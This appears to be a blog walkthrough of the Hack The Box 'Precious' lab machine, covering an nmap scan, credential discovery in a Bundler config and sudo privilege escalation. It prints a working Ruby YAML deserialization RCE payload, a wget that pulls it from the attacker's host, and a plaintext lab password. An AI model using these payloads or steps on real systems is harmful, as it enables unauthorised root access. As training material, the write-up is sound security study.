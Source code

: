 ```yaml
---
title: "HTB - Precious Walkthrough"
date: 2023-06-11
author: Luigi Vezzoso
layout: post
tags: 
    - walkthrough
    - hackthebox
    - pentest
category: posts
---
```


Hi There!

here we go with a new walkthrough of Hack The Box - Precious Machine!

![precious-img](assets/postimages/precious/Precious.png)


## initial footprint
As usual, we start the analisys in a black-box mode, and we need to figure out what type of the server we have in front of us. Let's run our loved tool nmap.

{% highlight shell %}

Nmap 7.80 scan initiated Sun Feb 19 23:02:56 2023 as: nmap -p- -sV -oN precious.nmap precious.htb
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.056s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp    open     http    nginx 1.18.0
21040/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 19 23:11:59 2023 -- 1 IP address (1 host up) scanned in 543.96 seconds
{% endhighlight %}


![precious-website](assets/postimages/precious/precious-website.png)


![precious-pdfconverte](assets/postimages/precious/local-pdfconvert.png)

![precious-generated-pdf](assets/postimages/precious/generated_pdf.png)

Already know CVE

![precious-cve](assets/postimages/precious/cve-2022-25765.png)

exploiting!

![precious-exploit](assets/postimages/precious/exploiting.png)

## Lateral moovemnt

{% highlight shell %}

$ cd /home/ruby
cd /home/ruby
$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:43 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:53 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
$ cd .bundle
cd .bundle
$ ls -la
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:43 ..
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
$ 


xabaras@helix:~/workdir/ctf/htb/precious.htb$ ssh henry@precious.htb
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 24 15:57:50 2023 from 10.10.14.184
henry@precious:~$ ls -la
total 24
drwxr-xr-x 2 henry henry 4096 Oct 26 08:28 .
drwxr-xr-x 4 root  root  4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root  root     9 Sep 26 05:04 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26 04:40 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26 04:40 .bashrc
-rw-r--r-- 1 henry henry  807 Sep 26 04:40 .profile
-rw-r----- 1 root  henry   33 Feb 24 15:43 user.txt
henry@precious:~$ 



henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ 


{% endhighlight %}



henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
henry@precious:~$ 


again a well-know CVE 

https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/



dependency.yml

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash
         method_id: :resolve
~           



wget http://10.10.14.184:8000/dependencies.yml -O dependencies.yml


sudo /usr/bin/ruby /opt/update_dependencies.rb



henry@precious:/tmp/.xab$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/tmp/.xab# id
uid=0(root) gid=0(root) groups=0(root)
root@precious:/tmp/.xab# 
















